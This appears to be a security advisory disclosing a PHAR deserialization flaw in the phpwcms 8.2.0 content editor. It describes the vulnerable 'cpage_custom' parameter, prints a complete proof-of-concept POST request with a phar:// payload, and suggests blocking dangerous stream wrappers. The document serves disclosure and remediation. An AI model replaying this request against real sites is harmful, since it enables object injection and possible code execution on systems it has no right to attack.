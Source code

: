 # `phar` deserialization vulnerability in `cnt21.readform.inc.php#file_get_contents`

## 0x01 Affected version
vendor: https://github.com/slackero/phpwcms

version: 8.2.0

php version: 7.x

## 0x02 Vulnerability description

The phpwcms Content Management System is vulnerable to PHP Object Injection in the article content type 21 (Custom Source Tab) through deserialization of untrusted input. An attacker can provide a malicious PHAR URL via the 'cpage_custom' parameter in the content editing form, which is passed directly to the file_get_contents() function without proper validation. This vulnerability allows attackers to inject PHP Objects through a PHAR file or utilize various PHP stream wrappers for side-channel attacks. No known POP (Property Oriented Programming) chain has been identified in the core application, meaning this vulnerability may have limited impact unless other components with suitable gadgets are installed. If a POP chain exists through additional components, attackers could potentially delete files, access sensitive information, or execute arbitrary code depending on the available gadgets. This vulnerability can be exploited by attackers with access to the phpwcms admin interface. The attack requires a valid CSRF token to be included in the request.

![alt text](../dists/phpwcms1.png)

```text
POST /phpwcms.php?csrftoken=d20e0993a60841067fe209bd82884f24&do=articles&p=2&s=1&aktion=2&id=1 HTTP/1.1
Host: dem0.com
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
Referer: http://dem0.com/phpwcms.php?csrftoken=d20e0993a60841067fe209bd82884f24&do=articles&p=2&s=1&id=1
Origin: http://dem0.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Cookie: phpwcmsBELang=en; PHPSESSID=ndprgg1lkuk77l5vrhdbejep2e
Cache-Control: max-age=0
Content-Length: 219

csrf_token_name=csrf6825cb2230f394.61788130&csrf_token_value=08854df019d6a36b5c096237306340b9c93a9751bc99487c0fd94541ff60f09898f95d44b72a50766972de827e7ae15b9feb13d6a88801f6c9280a03a98632fa&ctype=21&csorting=0&caktion=1&cpage_source=1&caid=1&cpage_custom=phar%3A%2F%2F..%2F..%2Fexp.phar&ctitle=2&csubtitle=3&ccomment=4&cpaginate_title=5&cbefore=&cafter=&cid=1&clivedate=&ckilldate=&cblock=2
```

## 0x03 Repair suggestions
To prevent the exploitation of this vulnerability, it is important to implement proper input validation for the 'cpage_custom' parameter. The application should restrict the protocols that can be used with file_get_contents() to only allow safe values, explicitly blocking dangerous protocols like 'phar://', 'php://', and other potentially malicious stream wrappers. Additionally, implementing a whitelist approach that only allows specific protocols (such as 'http://' and 'https://') would provide stronger protection. Proper sanitization and validation of user input are critical for mitigating this risk.
